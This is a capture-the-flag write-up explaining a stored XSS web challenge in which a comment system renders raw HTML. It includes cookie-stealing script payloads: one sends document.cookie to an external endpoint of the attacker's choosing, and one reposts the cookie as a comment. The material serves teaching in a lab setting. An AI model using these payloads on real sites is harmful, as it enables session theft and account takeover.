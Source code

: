 # Solution
This one is a [DOM XSS](https://owasp.org/www-community/attacks/DOM_Based_XSS)
challenge. Why is that and how can you know? Well,
besides blindly injecting HTML into a comment and seeing that it's
parsed as HTML, (give `<script>alert("pls wrk")</script>` a try lol)
into a comment, take a look at what we're given:
1. We have a cookie named `flag` that would have the flag if we were admin (hence the default cookie value of `if only you were admin lol` haha)
2. There is an admin bot (usually a good indicator for a XSS chal)
3. There is functionality to bring the admin to *your* webpage (if you could change the javascript on the site, you could have *your* code execute in *their* browser, i.e.-a DOM XSS attack would be pretty baller)
4. The prompt literally says "steal the admin's cookie" (a bit on the nose haha, but like mentioned above, if another user's cookie is the goal,
XSS should be at the top of the list for things to check for)

Okay, cool. Well, where would you start with a challenge like this?
Usually, when building web challenges, challenge authors seldom give
functionality to the site that is not useful for solving it. The only
real funcionality we have on this site is the commenting system. We can
look at the source too, which the func in charge of adding our comment
is:
```python
@socketio.on('submit comment')
def handle_comment(data):
	comments.append("<p class=\"comment\"><strong>" + data['author'] + ":</strong> " + data['comment'] + "</p>");
	emit('new comment', broadcast=True)
```
Looks like it just adds our name and comment directly into a string that
is then interpreted as HTML. Well, what if our comment and/or name
was just straight up HTML? Guess what, it's also rendered as HTML! A
*really* fun HTMl tag that we can use is the `<script>` tag. Plug in
the example at the top of the page to see it in action, but in short it
allows you to put javascript in a web page that is executed upon loading
the page. This means that you can inject JS straight into the web page,
***and so anyone that visits the site will have your JS executed in
their browser***, sick!!! You can either fetch a web endpoint that you
control (like [https://webhook.site/](https://webhook.site/)) and appending the visitor's cookies to as a URL paramter like so:
```html
<script>fetch("<your_endpoint>/?"+document.cookies)</script>
```
OR you can just straight up put their cookies into a comment using the
site's very own JS functionality!
```html
<script>
document.getElementById('comment-author').value='AnotherUser';
document.getElementById('comment-input').value='cookie: '+document.cookie;
var socket = io.connect('http://' + document.domain + ':' + location.port);
var author = $('#comment-author').val();
var comment = $('#comment-input').val();
console.log('Hellow');
console.log(author);
console.log(comment);
socket.emit('submit comment', {author: author, comment: comment});//{author: author, comment: comment});
$('#comment-author').val('');
$('#comment-input').val('');
</script>
```
It's def more complicated, so why would you want to do that? To that I
answer: it's funny! Either way, you get yourself a brand new flag and
the hardest web challenge for BBCTF is solved.

This challenge was based off of one of my most favorite challenges I
ever made, [The DEW](https://github.com/Pwnut/spaceheroes_ctf_23/tree/main/web),
which NOT solvable via a fetch request to an external endpoint like you
see above. Check it out to see why if you want to learn more web!
